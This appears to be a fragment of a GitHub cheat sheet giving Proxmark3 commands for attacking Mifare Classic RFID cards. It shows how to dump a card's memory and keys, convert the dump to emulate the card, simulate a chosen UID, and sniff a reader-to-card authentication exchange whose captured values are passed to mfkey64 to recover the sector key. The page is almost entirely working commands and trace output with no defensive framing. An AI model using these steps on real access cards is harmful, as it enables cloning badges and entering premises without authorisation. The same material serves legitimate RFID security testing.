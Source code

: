 #### Dump Mifare card

```powershell
proxmark3> hf mf dump 1 k hf-mf-A29558E4-key.bin f hf-mf-A29558E4-data.bin

<card memory>: 0 = 320 bytes (Mifare Mini), 1 = 1K (default), 2 = 2K, 4 = 4K
k <name>     : key filename, if no <name> given, UID will be used as filename
f <name>     : data filename, if no <name> given, UID will be used as filename
```

#### Simulate and emulate Mifare card

Emulate from a dump file

```powershell
# convert .bin to .eml
proxmark3> script run dumptoemul -i dumpdata.bin
proxmark3> hf mf eload <file name w/o .eml>
```

Simulate Mifare 1K UID

```powershell
proxmark3> hf mf sim u 353c2aa6
```

#### MITM attack

```powershell
hf 14a snoop
# read card
# push button

hf list 14a
089220 |   095108 | Tag | 4d  xx  xx  xx  d3                                              |     | UID
114608 |   125072 | Rdr | 93  70  4d  xx  xx  xx  d3  4f  8d                              |  ok | SELECT_UID
...
525076 |   529748 | Tag | 61  7a  66  18                                                  |     | TAG CHALLENGE
540608 |   549920 | Rdr |50! 87!  8e  ab 3b!  49  5a  1b                                  | !crc| HALT
551188 |   555860 | Tag |d6! 53!  7c 57!                                                  |     | TAG RESPONSE
UID: 4dxxxxxxd3
TAG CHALLENGE: 617a6618
READER CHALLENGE: 50878eab
READER RESPONSE: 3b495a1b
TAG RESPONSE: d6537c57

# crapto1gui or mfkey
cd tools/mfkey
make
./mfkey64
./mfkey64 xxxxxxxx 3b45a45a 7ddb6646 142fc1b9 9195fb3f
```

